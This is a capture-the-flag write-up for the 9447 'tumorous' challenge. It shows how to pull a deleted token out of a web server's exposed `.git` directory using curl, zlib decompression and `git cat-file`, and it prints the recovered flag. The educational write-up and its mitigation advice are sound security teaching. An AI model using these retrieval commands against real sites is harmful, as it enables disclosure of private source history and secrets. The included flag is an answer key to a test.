 ## tumorous ##
Writeup by @cyphar.

> **NOTE**: This write-up has a certain assumed knowledge about git internals
> and how git stores data inside the `.git` directory. A good primer on git
> objects can be found
> [here](http://git-scm.com/book/en/v2/Git-Internals-Git-Objects).

### tl;dr ###
The `.git` directory for the website's repo was exposed, allowing for raw git
objects to be retrieved and files in the git project history to be disclosed.

### Introduction ###
The page linked in the challenge description has some diary-like entries (one
of which mentions git, leading to the conclusion that the website has a git
repository which we can access).

Here are the diary entries, for completeness:

```txt
13/2/2004: I learned how to html, yay!
12/4/2004: I learned how to use git, yay!
13/4/2004: Hidden my 'repository' so people can't access it. I have a feeling I will need to protect something soon.
08/9/2004: Forged a token from the whispering iron. It is very dear to me, I should protect it.
10/9/2004: I put my token in a text file to protect it from alien mind readers from planet Zblaargh.
10/9/2004: I can't forget my token. What do I do?
11/9/2004: I panicked and deleted the token. It is the work of evil doers.
12/9/2004: My token is lost. My life has no meaning now. I'm going to watch Louie season 4.
```

If you try to visit http://tumorous.9447.plumbing/.git/, you get a 403 error,
implying that there is a `.git` directory, but indexes have been disabled for
the web server. We're going to have to do this the old-fashioned way.

### Tips and Background ###
There are quite a few helpful files inside `.git` which make our job much
easier.

* `.git/HEAD` (teamed with `.git/refs/heads/*`) can tell you the current commit
  hash that `HEAD` points to in the local git repo.
* `.git/logs/HEAD` allows you to see the history of the `HEAD` of a local git
  repo (including commit amendments and rebases, basically this file is where
  `git reflog` gets its data from).

In addition, it is necessary to know how git stores data. Basically git (at its
core), has a hashmap of hashes to objects. Some of these objects are commit
objects (which point to tree objects, which point to blob objects -- files).

Since the "website owner" hasn't purged the commits which contain the required
file, if we can find a commit where the `token` file existed, we can get that
file.

It is also helpful to know two things:

* `gzip` can decompress `zlib` compressed data (by simply adding a dummy header
  to the compressed stream) -- this makes dealing with git commit objects much
  easier. This can be done using the command:
  `(printf "\x1f\x8b\x08\x00\x00\x00\x00\x00"; cat zlib.data) | gzip -dc`
* `git cat-file` doesn't do any sanity checks on your local git repo, meaning
  that you can create a new repo, download `.git/object` files and then use
  `git cat-file` to read them without any trouble.

### Exploitation ###

So, we need to look for a git blob object that represents `token`, when it
contained the data we want.

The first step is to establish the commit history of the repo, which can be
done with our good friend `.git/logs/HEAD`:

```bash
$ curl http://tumorous.9447.plumbing/.git/logs/HEAD | cat -v
0000000000000000000000000000000000000000 cb36b491e21091a258cb26f56f6157e31084a693 root <root@ip-172-31-5-48.ap-southeast-2.compute.internal> 1412670724 +0000   commit (initial): I'm new to this repo stuff
cb36b491e21091a258cb26f56f6157e31084a693 043a18366cb0b2ab31c0f9b14a755a8e597a8b6a John Doe <fsck@you.me> 1412670748 +0000       commit (amend): I'm new to this repo stuff
043a18366cb0b2ab31c0f9b14a755a8e597a8b6a 3dbda5576912236328494b11f9361dca66c0218a root <root@ip-172-31-5-48.ap-southeast-2.compute.internal> 1417231293 +0000   commit: My token now exists!
```

The commit "3dbda5576912236328494b11f9361dca66c0218a" looks like the best bet
(given the commit message). This hash is the hash of the commit object, which
contains a link to the tree object (and thus to the blob data at that point in
the git history for the repo, thus it contains the contents of the `token`
file).

> **NOTE**: For several reasons (IIRC, the main reason is that filesystems don't
> handle huge numbers of files in a single directory -- due to cache misses and
> hashmap-related issues) git stores its objects in a series of folders under
> `.git/objects`, where the object's hash is split such that the first two
> characters are the directory under `.git/objects` and the rest of the hash is
> the filename.

```bash
$ (printf "\x1f\x8b\x08\x00\x00\x00\x00\x00"; curl http://tumorous.9447.plumbing/.git/objects/3d/bda5576912236328494b11f9361dca66c0218a) | gzip -dc | cat -v

gzip: stdin: unexpected end of file
commit 285^@tree 97d2ea0a2433ecc3024674b1d1ab18661c99b0fe
parent 043a18366cb0b2ab31c0f9b14a755a8e597a8b6a
author root <root@ip-172-31-5-48.ap-southeast-2.compute.internal> 1417231293 +0000
committer root <root@ip-172-31-5-48.ap-southeast-2.compute.internal> 1417231293 +0000

My token now exists!
```

So the tree object for that commit (ignoring the erroneous `gzip` errors) is
"97d2ea0a2433ecc3024674b1d1ab18661c99b0fe". So let's try doing the same trick to
that object.

```bash
$ (printf "\x1f\x8b\x08\x00\x00\x00\x00\x00"; curl http://tumorous.9447.plumbing/.git/objects/97/d2ea0a2433ecc3024674b1d1ab18661c99b0fe) | gzip -dc | cat -v

gzip: stdin: unexpected end of file
tree 71^@100644 index.html^@;M-:`M-oHWM-^M^F^YM-/M-pgM-GM-vYl^T&M-NM-^V100644 token^@^M/M-NF#M-*M-^LM-XM-|M-*M-iiM-IM-/LsM-`M-4M-?M-``
```

Disaster! You can see that the object refers to the elusive `token` file, but
we can't extract the hashes as easily as we did before. Turns out, git stores
the hashes of the blob objects pointed to by a tree objects in a binary format.
So we're going to have to either:

1. Download the object, then manually work through the object's data with a hex
   editor (or just `hexdump -C`) to figure out the hexadecimal representation of
   the hashes; or
2. Download the object into a git repo and then use the specifically designed
   `git cat-file` to extract the information.

Since 1 would be a major PITA, we went with 2. So you just need to make a new
repo, drop in the object data and then use `git` to parse the file for you.

```bash
$ cd $(mktemp -d)
$ git init
Initialized empty Git repository in [temporary directory]
$ curl -o .git/objects/97/d2ea0a2433ecc3024674b1d1ab18661c99b0fe http://tumorous.9447.plumbing/.git/objects/97/d2ea0a2433ecc3024674b1d1ab18661c99b0fe
# [... snip ...]
$ git cat-file -t
$ git cat-file -t 97d2ea0a2433ecc3024674b1d1ab18661c99b0fe
tree
$ git cat-file -p 97d2ea0a2433ecc3024674b1d1ab18661c99b0fe
100644 blob 3bba60ef48578d0619aff067c7f6596c1426ce96    index.html
100644 blob 0d2fce4623aa8cd8fcaae969c9af4c73e0b4bfe0    token
```

Okay, so now we know the hash of the blob object that represents the contents
of `token` at that point in the git repo's history --
"0d2fce4623aa8cd8fcaae969c9af4c73e0b4bfe0". So now all we need to do is read
that file and we're done.

```bash
$ (printf "\x1f\x8b\x08\x00\x00\x00\x00\x00"; curl http://tumorous.9447.plumbing/.git/objects/0d/2fce4623aa8cd8fcaae969c9af4c73e0b4bfe0) | gzip -dc | cat -v

gzip: stdin: unexpected end of file
blob 35^@9447{IM_SITTING_ON_A_PILE_OF_GOLD}
```

Boom! So the flag is `9447{IM_SITTING_ON_A_PILE_OF_GOLD}`.

### Mitigations ###
If you don't want people to read the history of your git repo, don't make it
publically accessible. And no, turning indexes off doesn't make any difference
whatsover (AFAIK git doesn't internally use any filesystem traversal magic,
it only uses links and references to data to build and store graphs).
